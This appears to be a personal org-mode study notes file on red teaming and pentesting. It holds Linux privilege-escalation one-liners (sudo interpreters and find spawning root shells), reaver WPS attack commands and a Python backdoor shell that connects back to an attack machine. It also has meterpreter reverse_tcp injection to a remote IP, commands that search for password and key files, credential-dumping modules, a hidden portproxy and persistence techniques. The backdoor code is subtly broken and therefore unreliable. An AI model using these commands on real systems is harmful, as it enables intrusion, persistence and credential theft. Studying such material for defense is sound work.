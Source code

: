 #+TAGS: sec red


* Red Team                                                          :sec:red:
* Process
** Recon
*** Tools
- nmap
- recon-ng
- httrack
- tinfoleak
- theHarvester
**** Geoip - python
- this lib is used to pull data from the mindmax db
- first we need the midmax db
#+BEGIN_SRC sh
wget -N -q http://geolite.maxmind.com/download/geoip/database/GeoLiteCity.dat.gz
gzip -d GeoLiteCity.dat.gz
pip install geoip
#+END_SRC
- for examples of use
https://github.com/appliedsec/pygeoip/wiki
*** Web Tools
- haveibeenpwned.com

** Enumeration
*** Vulnerabiliy Scanners
- [[file://home/crito/org/tech/security/security_tools/openvas.org][OpenVAS]]

** Exploitation
** Passwords
*** Cmds
- [[file://home/crito/org/tech/security/security_tools/hashcat.org][hashcat]]
- [[file://home/crito/org/tech/security/security_tools/john_the_ripper.org][John the Ripper]]
*** Links
[[http://www.adeptus-mechanicus.com/codex/jtrhcmkv/jtrhcmkv.php][John the Ripper and Hashcat - Markov Mode Comparison]]
** Priv Escalation
*** [[https://www.youtube.com/watch?v%3Ddk2wsyFiosg&t%3D37s][Linux Privilege Escalation - Jake Williams]]

- Only root users can:
  - Effectively hide
  - Bind ports below 1024
  - Read/Write any file
  - Persist easily between reboots
    
+ Binary exploits (shellcode) should be a last resort
  - Some priv escalation is a waiting game
    - writing a file to a cron.d directory
    - Must wait for crond to restart
    
- Kernel issues
  - uname -a
  - /etc/release
  - /etc/issue
  
- LMGFY to find known issues with these kernels and releases
  
+ Just because you find a kernel exploit doesn't mean you should use it
  - it might not be stable; immediate crash
  - You might get root and then crash the box
  - The exploit might have undesirable artifacts that get you caught

+ Simpler exploits are always better
  
+ Exploiting a vuln program running as root gives you root
  - Look for web servers, mail servers as a command injection here gives you root privs

+ Binary exploits of a root owned program are far less dangerous than a kernel exploit
  - Even if service crashes, the machine doesn't
  - Services probably will auto-restart

+ Trivially vuln setuid programs
  - run the ltrace cmd against any setuid and setgid programs found
  - A rediculous number of these are homegrown and use the 'system' syscall
  - If they don't specify the path, you win
    
  - Look for setuid programs with:
   - find directory -user root -perm -4000 -exec ls -ld {} \; > /tmp/gaping-security-hole

+ Cron jobs
- Can you read cron files owned by other users?
- Even if not some careful scripting with ps can help you find frequently run jobs
- Are any scripts or binaries in cron jobs subject to tampering?
- What about cron files themselves?
- Can you write to a cron.d directory?

+ Weak Permissions on Scripts
  - If a script with user writeable permissions is invoked as root, it may be modified to run arbitrary commands
  - Always check both world writeable and user writeable permissions before admitting defeat

  - Don't jush check the scripts called by priv users, many of these call other scripts internally
    - And many of those have weak permissions 
      
+ Weak permissions on binaries
  - user writeable permissions on binaries are less common than on scripts
  - unlikely to find world writeable binaries
    - but grop writeable bins are not unheard of, esp in custom software
      
+ Weak permissions on LD_PRELOAD
  - The LD_PRELOAD environ variable is a way to load a specific version of a shared lib for a given application
    - LD_PRELOAD is ignored for setuid programs
      
  - However a program may be invoked as root and be vuln
    
+ That shouldn't be setuid/setgid
  - An amazing number of sysads don't understand what should and shouldn't be setuid
  - Any command in sudo that can edit or overwrite files is an ob risk
  - Users with restricted sudo access can use it to obtain unrestricted root perms
  - In performing incident response, we've also seen obscure editors with the setuid bit set  
  - This is presumably a backdoor for the attacker to regain root perms at will
  - We sincerely hope no sysadmins are stupid enough to have setuid perms on editors
  - using the :shell in vi provides a root shell  

+ Don't sudo less
  - The less tool often used to page files can invoke an editor
  - On some buntu sys the default nano
  - Many sys still use vi as an editor
  - less can use ed to drop into default editor, and if vi you can spwan a root shell
  
  - more cmd is just as bad as less
    - ? key to see options    
    - ! will invoke shell cmds on most sys
      - !bash
      
+ Don't sudo cp and mv
  - We can't think of a good reason for either
  - With sudo cp of sudo mv, you can overwrite /etc/shadow or other critical files and obtain bd access
    
+ Don't sudo find
  - The find cmd is often set with sudo perm so helpdesk can find and clean large temp files
  - Besides obs screw up ops, this is a big sec hole
  - find . -exec bash -i \;
    
+ Don't sudo script interpreters
  - All unsafe:
    - Python
    - Perl
    - Ruby
    - Lua
    - others...

- Perl
#+BEGIN_SRC pl
sudo perl
exec "/bin/bash";
#+END_SRC

- Ruby
#+BEGIN_SRC rb
sudo ruby
exec "/bin/bash"
#+END_SRC

- Python
#+BEGIN_SRC py
sudo python
import os
os.system('/bin/bash/')
#+END_SRC

** Maintaining Access 
** Covering Tracks
* Attacks
** Clickjacking
URL: https://www.owasp.org/index.php/Clickjacking

** Cold boot
** Command Injection
- using hex to move to the passwd file
#+BEGIN_SRC sh
2E2E2Fetc/passwd
#+END_SRC
 - /../etc/passwd
** Cookie-Stuffing
** Cross Site Request Forgery (CSRF)
*** [[https://www.youtube.com/watch?v=iY74zUB6Mpk][Cross-Site Request Forgery Attack Lecture - Kevin Du]]
- Countermeasures against CSRF Attacks
  - Secret Token
  - do not attach cookies for Cross-Site requests
    - this could break functionality (this is an extreme measure)
  - Same-Site Cookie
** [[file://home/crito/org/tech/security/attacks/xss.org][Cross Site Scripting (XSS)]]
** Cross Site Tracing (XST)
** DLL injection
** Drity Cow
Github: https://github.com/dirtycow/dirtycow.github.io/wiki/VulnerabilityDetails
Github: [[https://github.com/dirtycow/dirtycow.github.io/wiki/PoCs][List of POC]]

** Evil Maid
** Heartbleed
** HTTP Response Splitting
** Local File Inclusion Vulnerability
** Man in the Middle
** Pixie Dust Attack
- Wifi Protected Setup (WPS)
- Uses a PIN to allow access to home network

- 8 digits - 7 | 1 - checksum
  - 7 -> 4 + 3
    
- Problem is how the protocol generates the E S1 and E S2 values, pseudo random numbers
- Some vendors also implement the protocol poorly
- Broadlink uses the C rand() function
- Ralink never generates an E S1 or E S2 value and they remain 0

- if the random number state is recovered then E S1 and E S2 can be calculated
- PSK1 and PSK2 can be calculated from the E-hash1 and E-Hash2 values
*** aircrack
1. airmon
2. wash -i wlan0mon
3. Copy the ESSID
4. reaver -c 1 -i wlan0mon -b <essid> -vv -K 1
- if this fails you can always bruteforce the wps
#+BEGIN_SRC sh
reaver -c 1 -i wlan0mon -b E0:91:F5:6F:3F:C6 -vv
#+END_SRC

** Ruby attack
** RPCBomb
url: http://www.theregister.co.uk/2017/05/04/linux_rpcbind_vulnerability/
** Shellshock
** SMB Relay Attack

** SMTP Injection
* Code
** Python
*** Backdoor Shell
#+BEGIN_SRC py
#!/usr/bin/python
import subprocess #Process commands
import socket #Process socket data

host = '127.0.0.1' # Attack Machine
port = 443 # Attack Port
passwd = 's3cr3t' 

# chek password
def Login():
    global s
    s.send("Login: ")
    pwd = s.recv(1024)

    if pwd.strip() is passwd:
        Login()
    else:
        s.send("Connected #> ")
        shell()

# Execute shell cmds
def Shell();
    while True:
        data = s.recv(1024)

        if data.strip() == ":kill":
            break

        proc = subprocess.Popen(data, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, stdin=subprocess.PIPE)
        output = proc.stdout.read() + proc.stderr.read()
        s.send("#> ")

# Start Script
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((host,port))
Login()
#+END_SRC
* Databases
- NVD (National Vulnerability Database)
- Open Source Vulnerability Database
- 
* Lecture
** [[https://www.youtube.com/watch?v%3DgYOy7CGpPIU][The Making of atlas: Kiddie to Hacker in 5 Sleepless Nights]]
http://atlas.r470y.com/ - atlas blog   

- Tools
  - objdump - reads the headers of executables
    - objdump -x demystified - this will dump all headers
  - ReadElf
  - GDB
  - Ktrace/KDump
    
** [[https://www.youtube.com/watch?v%3D0fbBwGAuINw][How to Exploit Metasploitable 2 with NMap, Nexpose, Nessus and Metasploit]]

- getting a html report from nmap report
#+BEGIN_SRC sh
nmap -O -sV -sC -oX nmap-scan.xml 192.168.56.101
cp /usr/share/nmap/nmap.xsl .
#+END_SRC
We need the nmap.xsl as it is the stylesheet for the xml file

- Vulnerability Scanners
  - OpenVAS
  - Nessus
  - Nexpose
** [[https://www.youtube.com/watch?v%3D4uN44YfsQPk][The Wizard of Oz - Painting a Reality Through Deception - David Kennedy]]
- SE Attacks Explained
  1. Homework
  2. Threat Model
  3. Attack
  4. Persistence and Exfil
     
- email marketing or forward facing people to discover what company email looks like
  
- ms diagnostics - exploit vector
- excel macros - less so 
- hta files - exploit vector

- Sending the fish out
  - only send it to one person at a time - then wait 1hr before pushing to next person
    
- C & C
  - lateral movement to needed data
    
- snoof app - for spoofing phone numbers
  
- padgeant - putty feature that saves crts for ssh
** [[https://www.youtube.com/watch?v=xXqyogdxITE][The Dirty Little Secrets They Didn't Teach You In Pentesting Class]]
- Domain Admin or Bust
  - Usually this means adding yourself as one (aka fastest way to get caught)

- Pentesting Goals
  - What's out goal?
  - Vulnerability Driven vs Data Driven vs Capability Driven pentest/goal
  - What's a *good* goal?
    - Domain Admin is "A Goal" but it's a stupid goal
    - What makes the client money is a better goal (if you can identify it)
    -Problems arise in actually identifying this. What's important to testers vs client vs bad guys
    - Best goal, testing client's ability to detect and respond to various levels of attackers
      
- Majority of 'Pentesting' going on today

Run Scanner ---> Exploit ---> Report

this is useless, the evidence is need to identify where the failures occured

- A Better Way
  
Intelligence Gathering ---> Foot Printing ---> Vulnerability Analysis ---> Exploitation ---> Post-Exploitation ---> Clean up

- Actual Attack Scenarios

Prepwork/Analysis ---> Intel Gathering ---> Targeting ---> Exploitation ---> Post-Exploitation

- Prep Work
  - make your click scripts
  - update your stuff
  - have script and screen ready to go  

- Tips
  - screen/tmux so you don't lose your shell
  - use script to log all of the session
  - One of these passwords almost always works
    - password
    - Password
    - pssw0rd
    - Password123
    - welcome
    - welcome123
    - $Company1
    - $Comapany123
    - changeme123
    - p@ssw0rd
    - p@ssw0rd123
    - Username123
      
  - Nmap Scripts
    - Best scripts don't fire off automatically with "-A"
    - Some of the better scripts...
      - Citrix, NFS, AFP, SNMP, LDAP
      - Database coverage
      - http*
      - Losts of handy stuff, some overlap with MSF aux but some things sux doesn't have.
	
  - MSF Auxiliary Modules
    - Handles all the BS for you
    - Uses lib/rex == "Ruby EXploitation library"
      - Basic lib for most tasks
      - Sockets, protocols, command shell interface
      - SSL, SMB, HTTP, XOR, Base64, random text
      - Intended to be useful outside of the framework
    - Lib/rex ported to a ruby gem
      - can make use of rex outside of MSF
    - Designed to help with reconnaissance
    - Dozens of useful service scanners
    - Simple module format, easy to use
    - Specify THREADS for concurrency
      - Keep this under 16 for native Windows
      - 256 is fine on Linux
   - Uses RHOSTS instead of RHOST 	

- Post-Exploitation
  Mubix docs on post-exploitation
  - http://www.room362.com/blog/9/6/post-exploitation-command-lists.html
  - http://bitly.com/qrbKQP
    
  - Best persistence method?
    - Meterpreter
      - HTTPS
      - Pro's Persistence Agent
    - MOS_DEF?
      - Thunderbird SPAM Persistence
      - DNS, HTTP, HTTPS, etc
    - CORE Agent?
    - Wiz-bang custom binary/backdoor
    - RAT
  Better Method
    - RDP/VNC to outward facing box 
      - MyPasswords.txt will be kept on the fileshare somewhere

  - Send shells to team mates
    - run multi_meter_inject -pt windows/meterpreter/reverse_tcp -mr 1.2.3.4 -p 80
    - always have a spare shell
      
- Find Stuff Internally
  - Good
    - Nmap - up load to a target
    - Ping
    - Nessus 
    - Nexpose
    - "net view / domain"

  - Better
    - OSQL (MS binary should cause any problems to install)
      - osql -L 
         - will let you know all the SQL servers it knows about
         - can use it to connect to databases

    - DSQUERY / DSGET (annoying)
      - dsquery computer -limit 0 - current domain
      - dsquery user -limit 0
      - dsquery computer -limit 0 "DC=company,DC=net"
      - dsquery user -limit 0 "DC=company,DC=net" - other domains
    - the above can be done with adfind (this is DSQUERY on steroids)
      
    - nltest
      
  - BEST
    - Railgun - provides the windows API
    - NetDiscovery (part of MSF) - SQL, DC, UNIX, Novell selections
    - DomainDiscovery
      - what domains do you have acces to?
      - Are they domains?
      - What are the names of all their domain controllers? 
	
- User Discovery
  - Good
    - net group "domain admins" /domain
    - net group "domain admins" /domain:DM
    - net localgroup  Administrators
    - net group localgroup Administrators /domain
    - net user domainadmin_username /domain
    - net user username/domain
      
  - Better
  - Rpcclient
    - Enumerate users
      #+BEGIN_EXAMPLE
      #!/bin/bash
      for i in {500..600}
      do
        rpcclient -U "user%Password1" -W DOMAiN 1.2.3.4 -c "lookupsids S-1-5-21-1289870925-1615939633-2792171844-$i
      done	
      #+END_EXAMPLE
      
  - BEST
    - UserDiscovery
    - DisplaySessions
    - PVE-Find-AD-User
    
  - Creating Zombies
    - RunAs
      - ShellExecute
      - CreateProcessWith
      - Logon, LogonUser
    - WCE+ (can cause system to crash)
    - runhash32/64 - user level psexec == zombie user & token
      
  - Run executable in memory
  #+BEGIN_EXAMPLE
  meterpreter > execute -H -l -c -m -f bins/newbinary.exe
  #+END_EXAMPLE
  this will start a binary on the target remove and replace it with the desired binary on the host
  
- Privilege Escalation
  - Good
    - getsystem
      - use the options or you will use your shell
    - Post modules
      - Keyboard layout
      - Bypassuac
    - Core Impact /Canvas ship with locals
      
  - Better
    - DomainDrop

  - BEST
    - Just ask for it...
    - Ask module
    - Tasklist
      - tasklist /V /S $IP /U $user /P $password
    #+BEGIN_EXAMPLE
    for /F "skip=3 delims=\ " %A in ('net view') do tasklist /V /S %A /U $user /P $password
    #+END_EXAMPLE
    
- Finding the Gold
  - Dir /s "My Documents"
  - Dir /s "Desktop"
  - Dir /s *.pcf
  - ListDrives
    
Searching for files
  - dir c:\*password* /s
  - dir c:\*competitor* /s
  - dir c:\*finance* /s
  - dir c:\*risk* /s
  - dir c:\*assessment* /s
  - dir c:\*.key* /s
  - dir c:\*.ica /s
  - dir c:\*.crt /s
  - dir c:\*.log /s
  - dir c:\*.vsd /s
    
Searching in files
  - findstr
    - password
    - secret
    - confidential
    - account
      
  - Better
    - Dumplinks
    - GetFirefoxCreds
    - GetPidginCreds
    - Outlook, IE, Chrome, RDP Password Extraction
      - Basically the whole credentials post module section
    - SharePoint
    - Intranet.company.com
      
  - BEST
    - OpenDLP
    - Fiction's Database Searcher
    - Search in Meterpreter
      - Uses windows indexing ie outlook email
    - Dir /s $share > filetosearchoffline.txt
      - Findstr
	
- Pivoting
  - Portforwarding
    - Meterpreter portfwd
    - Route
    - Sock4a module + meterperter session
    - Pro VPN Pivot
  - Portproxy
    - Built into Windows
    #+BEGIN_EXAMPLE
    netsh interface protproxy>add v4tov4 listenport=25 connectionaddress=192.168.0.100 connectionport=80 protocol=tcp
    #+END_EXAMPLE
    will not show on netstat
  - Legitimate Access via VPN, Term Server, Citrix, etc
    
- Persistence
  - Autoruns
  - Smartlocker - http://blog.metasploit.com/2010/12/capturing-windows-logons-with.html
  - Fxsst.dll
    - https://blog.mandiant.com/archives/1786
    - http://www.room362.com/blog/2011/6/27/fxsstdll-persistence-the-evil-fax-machine.html
  - gpo_dropper hbgary
  - IPv6 Dropper

https://github.com/mubix/Not-In-Pentesting-Class

* Tutorial
** PluralSight - System Hacking - Dale Meredith

*** Intro

What to do before attack
+ recon & footprinting
    - ip range
    - Namespace
    - Public Data
+ Scanning
    - ID targets
    - ID services
    - ID O/S
+ Enumeration
    - User lists
    - Security flaws
    - Resources

What are our goals
+ Gain Access
+ Maintaining Access
+ Covering Tracks


**** Gaining Access
Complexity - MS you must use at least 3 of Upper case, Lower case, Numbers and Special characters
Password recovery time simulator - free

***** Architecture
****** Windows
Local machines: SAM Database - C:\windows\system32\config\sam
Stored as hashes - mounted as HKLM/SAM
Older machines may have C:\windows\repair with backups of passwords

Active Directory: ntds.dit - C:\windows\ntds
stores all passwords for domain controller     

****** Linux
/etc/shadow

****** OS X
/var/db/dslocal/nods/default/users

ophcrack to crack the hash - ophcrack has a live cd


****** Techniques Used
+ Dictionary Attack - Text files of words - Languages - Subjects
+ Brute-Force Attacks - Takes longer - beyond 14+ starts getting difficult
+ Syllable Attacks - Dictionary and brute-force attack
+ Hybrid Attacks - Dictionary using variation on numbers & special chars
+ Rule-Base Attacks - Using discovered rules to specify shape of password
+ Guessing - Using information gleaned to make educated guesses - social media etc
  
****** Types of Attacks
| Passive Online | Sniffing, MIM, Sidejacking(firesheep)             |
| Active Onle    | Hash injection, trojan/keylogger                  |
| Offline        | Rainbow, Distributed network, pre-computed hashes |
| Non-electronic | Dumpster diving, social engineering               |

Hashes 
LM Hash - des
+ LM Hash/NTLM stores passwords up to 14 chars
+ All characters are converted to UPPER case
+ Padded with blank characters to fill out all 14 chars.
+ Then split into 7 chars stings
+ Each 7 char string is then encrypted and combined back 

NTLM 1 - md4 NTLM 2 - md5
Bwayne:1005:85D8D0AEB8D112F8F9954FC9DF57E012:ED7B273FDE21FFE559AC8D1B9D3729BC:::
Administrator:500: xxxxxxxxxxxxxxxxxxxxxxx:xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx:::
Guest:501:NOPASSWORD**********************:NOPASSWORD*********************:::

Notes
+ 500 cid in MS is always admin
+ Any hash that ends with: AAD3B435B51404EE - last 7 chars blank
+ Any password with 15+ chars: the LM hash value is "dummied" with AAD3B435B51404EEAAD3B435B51404EE

****** NTLM Authentication
+ NTLM is used whtn 
  - There is no Kerberos trust between two different forests
  - Authentication is attempted by IP and not by DNS
  - If oe or both systems are not in the same domain
  - If your FW is blocking Kerberos ports
  
******* How it's used
+ Challenge response algorithm
+ Passwords are not transmitted
+ V1 came with NT - V2 cam with NT SP4

******* The Process

user enters pass -----> windows generates a hash
        |
        |
        ---------------------------------------------> Domain Controller
	                      Request                            |
          <-------------------------------------------------------	
                             hash sent by DC
       ---------------------------------------------------------->
                      hast and challenge sent back
		      
****** Kerberos Authentication - used on modern MS
+ Ticket based
+ Avoids transmitting passwords
+ Time based

1. user requests TGT 
2. DC issues TGT
3. TGT is presented to machines in the network to access services
PDC needs to be synced otherwise kerberose doesn't work

****** Salting 
+ Append or prepending random strings
+ done before hashing
+ prevents duplicate hashes
+ unique to each password
  
****** Rainbow tables
+ Precomputed hash tables
+ Huge files

+ website for checking hashes tobtu.com 
+ lm hash checking hashes rainbowrables.it64.com
+ dictionaries can be found at outpost9.com

**** Maintaining Access
     
+ Look around
  - config errors
  - design errors
  - layouts
  - programming flaws

***** Four Methods for Escalation
1. Pwn the admin/root acct
2. Take advantage of vuln
3. Fire up the sploit - alt to sploit - canvas, core-impact
4. Have a user do it for you!

***** Types of Escalation
+ Vertical - user gains admin level access
+ Horizontal - move to a user 
  
***** Counter Measures
+ encryption - encrypted hdd 
+ Least priv - don't over allocate a user
+ sw upto date
+ Limit interactive logon
+ Service accts are limited
+ Limit code that can run with privs

***** Slow down attacker
+ Priv separation approach
+ test os and app code before running
+ Multi-factor
+ Stress test code, apps befor deploying

**** Cover Tracks

** ISSA Web Pen-testing Workshop
*** [[https://www.youtube.com/watch?v%3DJPd2YtgJm8Q][Intro to Mutillidae, Burp Suite & Injection]]
*** [[https://www.youtube.com/watch?v%3DxSqw-KwQatI][Webshells]]
- on kali they are found in /usr/share/webshells

- weevely - github and kali more advanced webshell
  - instead of using puts ands gets it uses cookies
- neopi - 
*** [[https://www.youtube.com/watch?v%3DKJn2HIpFmO0][HTML & Javascript Injection]]
- burp sutie has a builtin decoder for encoding webshell code
*** [[https://www.youtube.com/watch?v%3Dt-44ZsaeIQE&t%3D3s][Beef Hooks]]
*** [[https://www.youtube.com/watch?v%3Dd71YfVR1eWA][JSON Injection]]

** Offensive Security 2013 - FSU 
*** [[https://www.youtube.com/watch?v%3D4yNgP3CUOWo][Lecture 2: Linux Overview]]
*** [[https://www.youtube.com/watch?v%3D3y8JuixcSdU][Lecture 7: Fuzzing]]

- Exploitation Theory
  - Von Neumann Arch
    - unable to distinguish between data and instructions
    - instruction and data stores in same memory
      - this allows for the modification of code
  - Harvard Mode
    - this seperates out data and instruction into there own memory
      - this is implemented inside processors for specfic tasks, but not on whole systems
  - Other Architectures
    - Tagged Arch
    - Capablility Arch
    - Trusted Computing Base

- Exploits can be generalized into a three step process
1. Some sort of memory corruption
2. Change / hijack of control flow
3. Execution of the shellcode
   
- What is fuzzing?
  - The process of sending specific data to an application in hope to elicit certain responses
  - Specific?
    - Mutated data, generational data, edge cases, unanticipated datatypes, etc.
  - Certain?
    - crashes, errors, anomalous behaviour, different application states
      
- Fuzzing Phases
  1. Identify Target (application)
  2. Identify inputs
  3. Generate Fuzzed Data
     - Two methods for fuzzing data
      i) Generation
      ii) Mutation
  4. Execute Fuzzed Data
  5. Monitor for Exceptions
  6. Determine Exploitability
     
- Methods for generating fuzzed data
  - Generation fuzzing
  - Mutation fuzzing
    
- Generating fuzzed data
  - String repetitions
    - A*10, A*100, A*1000
  - Character translations
  - Directory Traversal
  - delimiters
  - Metacharacter / Command injection
    - sql -- comment
  - File types
  - Bit Flipping for protocol headers

Vulnerablility Scoring
http://www.first.org/cvss

HAOE book cd has a vanilla system that has a lot of the counter measures switched off 

** Offensive Security 2014 - FSU
Owen Redwood
*** [[https://www.youtube.com/watch?v%3Dlk3rp53b2NA][Lecture 1: Intro]]
- reading list
  - hacking the art of exploitation
  - the hacker's handbook to web applications

*** [[https://www.youtube.com/watch?v%3DlbjS2mXyMEQ][Lecture 2 - Secure Coding in C]]
- web tool that visuzlises code to assemby
  - http://gcc.godbolt.org
- reading list    
  - Secure Coding in C and C++ - Robert Seacord
    
http://websec.github.io/unicode-security-guide/character-transformations/

*** [[https://www.youtube.com/watch?v%3DyXX6DWFTLaQ][Lecture 3: Secure Coding in C cont]]
reading:
http://blog.reghr.org/archives/1054 - cryto lib bugs
http://www.cs.utah.edu/~regehr/papers/overflow12.pdf
http://floating-point-gui.
0x352 HAOE - Formatted Output Security
0x280 up to 0x300
0x350 up to 0x400

Race conditions
  - CVE-2007-4303
  - CVE-2007-4302

*** [[https://www.youtube.com/watch?v%3DMnmX911MqMU&t%3D3176s][Lecture 4]]
Links:
[[http://cve.mitre.org][Common Vulns and Exposures - CVE]]
[[http://cwe.mitre.org][Common Weakness Enumeration - CWE]]
[[http://cce.mitre.org][Common Configuration Enumeration - CCE]]
Seven kingdoms of exploit
[[http://nvd.nist.gov/home.cfm][National Vuln Database]]

CVEs
- list of information security vulns that aims to provide common names for publicly known problems
- Goal to make it easier to spread/share data
- Run by MITRE

Vuln - "is a mistake in software that can be directly used by a hacker to gain access to a system or network"

CCE
- Assigns unique identifiers to configuration guidance statements
  - The required permissions for accessing the directory %System Root%\System32\Setup should be "Administrator Account" only
  - The "account lockout threshold" for failed password attempts should be 3
  - For Linux, passwords should be stored in either SHA256 or SHA512 or the default DES formats and in the /etc/shadow file not the /etc/passwd file
    
CWE
- A softwate weakness is an error that may lead to a software vuln, such as those enumerated by the CVE list
- Examples software weaknesses include:
  - buffer overflows, format strings, etc
  - structure and validity problems; common special element manipulations
  - channel and path errors
  - handler errors
  - user interface errors
  - pathname traversal and equivalence errors
  - authentication errors
  - resource management errors

Code Nomenclature

Code ----> Bugs ----> Weaknesses ---- --> Exposures  -----> 
                                                            |                                     Exploited Vulns
							    ----   Vulns   ----------> 

Discovering Vulns
3 Primary Methods:

1. Source code Auditing
  - Requires Source Code
    
2. Reverse Engineering
  - Can be done withourt source code
  - Requires binary applications
  - very time consuming and requires high technical skill
    
3. Fuzzing
  - Lost of tools/Frameworks exist
  - Easy to make custom ones
  - Binary or source code availability is unimportant 
    
Auditing tools
- Author's source code comments
- Editors/Reading Tools
  - vi/emacs; source insight; eclipse; source-navigator
-Pattern matchng tools    
- Static analyzers
  - prone to missing vulns
  - prone to false pos+

Approaches
- Find the most bugs?
- Find the easiest to find bugs?
- Find the weaknesses that are most reliable to exploit?

It is important to limit the approach
 - will never have enough time to find all the bugs
   
General Methodology
1. Understand the Application
   - features
   - Architecture
     - what over services does the application require
   - Programming Lang
   - Compnents
      - DB - try to hit db for sqli
      - file shate - try to upload a file
     
2. Understand the Attack Surface
   - You must choose which ones to focus on 
     - Sabotage
       - defacing, attacker deleting records, altering them, destroying user trust
     - Gaining Access
       - attack / harass other users
       - botnet
       - identity theft
     - Piracy/theft

3. Target your efforts
   - depends on your style
     
Targeting: How to think like an attacker
  Traditional strategies:
    - ipurt sources related to code paths
    - target important components
      - security mechanisms
        - Auth
	- http/https
      - Data mgmt/DB
      - Interpreters (php)
    - Complex parsing, protocols or functions 
  Meta Targeting startegies
    - Start by looking at source code comments      
      - grep for:
        - fix this, todo!, xxx, *****
        - swearing/typos
        - old code
          - old libs
	- code checked in at 4am
	- code checked in at same time as other buggy code
	  
Reading Code
  - Review fewer than 200-400 lines of code at a time
  - Faster code review is not better
    - Optimal code review is around 300-500 loc
  - Never review code for more than 90 mins at a time
    -significant diminishing returns after this
  - Be thorough
    - vast majority of code is ok
  - Avoid making assumptions    
    - can cause you to miss bugs, or assume something is done correctly
  - Look for abstraction
    - switching between C and C++ styles of code
      - two different devs with different backgrounds > bugs
  - Focus on code patterns
    - copy paste chunks
      - forgetting to up chuck variables

-------------------------

Look up off by one errors
sizeof !=strlen
- size of bytes not elements
  
Programs in memory
- .txt section
   - contains machines intstructions
- .data section
   - global initialized variables
- .bss section
- heap section
- stack section
  
Gerenal Bug Categories 
1. API Based Bugs
2. Programming Construct Errors
3. State Mechanics
4. External Resource Interactions
-- refer to the seven kingdoms

*** Lecture 5
+ The Permissions Spectrum

- The Bios
  - The ultimate authority of hw
    
Boot Process
1. Bios
2. POST - Power On Self Test
   - CMOS
   - Hardware initialization
3. Bootloader 
4. OS
   
- The "Academic" Rings model
  - provide different levels of access
    3 - Normal non-root user applications
    2 - Device drivers (keyboard/mice/...)
    1 - Device drivers (video card, etc)
    0 - Kernel
    
- higher than ring 0
  - SMM (-2) System Management Mode - on intel chips
  - IPMI (-3) Intelligent Platform Management Interface
  - Bios (-1)

- The "Practical" Rings model
  -  4 - Sandboxed non-root user application
  -  3 - Normal non-root user applications
  -  0 - Kernel/root
  - -1 - Bios
  - -2 - SMM
  - -3 - IPMI
  - Physical Access
    
- Pivoting - Priv Esc to remote system
  - use one node to gain access to other nodes on the nextwork
  - Lateral movement 
    - Pass the Hash
      
- /etc/shadow
  - options for hashes
    - $1$ - it uses MD5 - no longer secure
    - $5$ - it uses SHA-256
    - $6$ - it uses SHA-512
    - $2a# - it uses blowfish
- otherwise it uses DES - considered no longer secure
  
- The least privilege principle
  - every process/user/program mush be able to access only the info and resources that are necessary for its legitimate purpose
    - no-login user accounts for services
    - jails
    - security in depth
    - makes logs cleaner
      
- setuid as root programs
  - theses programs have complete access on a UNIX system
  - virtually every attack chain involves a focus on attacking these programs
    - they are the single points of failure
    - once attackers get any form of access, they want to esc to root
      
- Priv Esc Attack Surface
  - sudi priv escs
  - kernel priv escs
  - daemon exploits / root process exploits
  - weak passwords
    
- logs
  - brute force attempts leave a big footprint
  - remote logins
  - system modifications
  - kernel modification
  - daemon logs
  - module loading/unloading
  - FW/Gateway/traffic logs
    - IDS
    - IPS
  - AD/LDAP/SCP    

*** Lecture 6
** CBT Nuggets Kali Linux 
*** Welcome to the tools of kali linux
*** What is BackTrack
*** Bypassing Wireless Mac Filtering
  - Find the AP
    - airmon-ng & airodump-ng
  - Find an associated client
    - airodump-ng
  - Borrow the MAC address - macchanger
    
- Hidden ssid will show with the <length: 0> in airodump-ng
  
- connecting with specific ssid with ifconfig
#+BEGIN_SRC sh
iwconfig wlan0 essid my_ssid_here channel 1
#+END_SRC

- just show the clients of an AP
#+BEGIN_SRC sh
airodump-ng -c 1 -a --bssid 00:18:11:60:17:3F wlan0mon
#+END_SRC
-a specifies that only clients should be shown

- change mac addr
#+BEGIN_SRC sh
macchanger -m 56:55:CA:F2:6F:AF wlan0
#+END_SRC

*** Rogue Access Point
- tools:
  - airmon-ng
  - airbase-ng
  - dhcpd3

- dhcpd.conf
#+BEGIN_SRC sh
ddns-update-style ad-hoc;
default-lease-time 600;
max-lease-time 7200;
subnet 192.168.2.0 netmask 255.255.255.0 {
option subnet-mask 255.255.255.0;
